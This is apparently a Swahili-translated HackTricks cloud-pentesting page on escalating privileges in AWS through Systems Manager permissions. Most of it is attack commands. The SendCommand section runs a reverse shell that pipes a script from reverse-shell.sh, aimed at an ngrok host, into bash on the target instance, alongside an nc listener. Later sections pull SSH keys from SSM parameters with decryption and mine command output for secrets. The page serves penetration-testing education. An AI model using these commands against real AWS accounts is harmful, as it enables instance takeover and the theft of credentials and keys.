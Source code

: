 # AWS - SSM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Kwa maelezo zaidi kuhusu SSM angalia:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

Mshambuliaji mwenye ruhusa **`ssm:SendCommand`** anaweza **kutekeleza amri katika mifano** inayotumia Amazon SSM Agent na **kuathiri IAM Role** inayotumia ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Ikiwa unatumia mbinu hii kuongeza mamlaka ndani ya EC2 instance ambayo tayari imeathiriwa, unaweza tu kukamata rev shell kwa ndani kwa:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents inayoendesha.

### `ssm:StartSession`

Mshambuliaji mwenye ruhusa **`ssm:StartSession`** anaweza **kuanzisha kikao kama cha SSH katika mifano** inayotembea yenye Amazon SSM Agent na **kushambulia IAM Role** inayotembea ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> Ili kuanzisha kikao unahitaji **SessionManagerPlugin** iliyosakinishwa: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Athari Zinazoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents inayoendesha.

#### Privesc kwa ECS

Wakati **ECS tasks** zinapokimbia na **`ExecuteCommand` imewezeshwa**, watumiaji wenye ruhusa za kutosha wanaweza kutumia `ecs execute-command` ili **kutekeleza amri** ndani ya kontena.\
Kulingana na [**nyaraka**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) hii inafanywa kwa kuunda channel salama kati ya kifaa unachotumia kuanzisha amri ya “_exec_” na kontena lengwa na SSM Session Manager. (SSM Session Manager Plugin inahitajika ili hii ifanye kazi)\
Hivyo, watumiaji wenye `ssm:StartSession` wataweza **kupata shell ndani ya ECS tasks** ikiwa chaguo hicho kimewezeshwa kwa kukimbia:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa `ECS`IAM roles zilizounganishwa na kazi zinazotembea zikiwa na `ExecuteCommand` imewezeshwa.

### `ssm:ResumeSession`

Mshambuliaji mwenye ruhusa **`ssm:ResumeSession`** anaweza ku-**anzisha tena kikao kama cha SSH katika mifano** inayotembea na Amazon SSM Agent ikiwa na hali ya kikao cha SSM **kilichounganishwa** na **kuathiri IAM Role** inayotembea ndani yake.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Madhara Yanayoweza Kutokea:** Privesc moja kwa moja kwa EC2 IAM roles zilizounganishwa na mifano inayotembea yenye SSM Agents zinazotembea na vikao vilivyokatishwa.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Mshambuliaji mwenye ruhusa zilizoelezwa atakuwa na uwezo wa kuorodhesha **SSM parameters** na **kuvisoma kwa maandiko wazi**. Katika vigezo hivi unaweza mara nyingi **kupata taarifa nyeti** kama funguo za SSH au funguo za API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya vigezo.

### `ssm:ListCommands`

Mshambuliaji mwenye ruhusa hii anaweza kuorodhesha **amri** zote zilizotumwa na kwa matumaini kupata **taarifa nyeti** juu yao.
```
aws ssm list-commands
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mistari ya amri.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Mshambuliaji mwenye ruhusa hizi anaweza kuorodhesha **amri** zote zilizotumwa na **kusoma matokeo** yaliyotolewa akitumaini kupata **taarifa nyeti** ndani yake.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya matokeo ya amri za mistari.

### Codebuild

Unaweza pia kutumia SSM kuingia ndani ya mradi wa codebuild unaojengwa:

{{#ref}}
aws-codebuild-privesc.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
